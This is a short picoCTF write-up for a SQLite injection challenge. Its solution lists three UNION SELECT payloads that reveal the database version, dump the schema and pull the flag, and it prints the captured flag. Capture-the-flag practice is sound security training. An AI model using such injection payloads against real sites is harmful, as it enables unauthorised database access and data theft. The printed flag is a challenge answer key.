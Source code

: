 ## Descripción 
Can you find the flag on this website.

Additional details will be available after launching your challenge instance.
## Hints
1. SQLiLite
## Solución
```
' union select sqlite_version(),2,3;

' union select sql,2,3 from sqlite_master;

' union select id,flag,3 from more_table
|   |
|---|
|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}|

```
## Notas

## Referencias
